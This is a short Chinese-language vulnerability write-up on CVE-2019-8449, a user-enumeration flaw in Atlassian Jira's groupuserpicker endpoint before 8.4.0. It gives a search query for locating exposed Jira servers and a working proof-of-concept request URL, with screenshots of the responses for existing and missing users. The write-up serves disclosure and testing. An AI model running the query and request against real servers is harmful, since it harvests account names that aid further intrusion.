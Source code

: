 # Atlassian Jira groupuserpicker 用户信息枚举漏洞 CVE-2019-8449

## 漏洞描述

Atlassian Jira groupuserpicker接口存在用户信息枚举漏洞，攻击者通过漏洞可以获取应用中的使用者账户名称，来进行进一步渗透

## 漏洞影响

```
Atlassian Jira <8.4.0
```

## 网络测绘

```
app="ATLASSIAN-JIRA"
```

## 漏洞复现

登录页面

![](./images/202205241426135.png)验证POC

```
/rest/api/latest/groupuserpicker?query=admin&maxResults=50&showAvatar=false
```

当用户存在时

![](./images/202205241426482.png)

当用户不存在时

![](./images/202205241427885.png)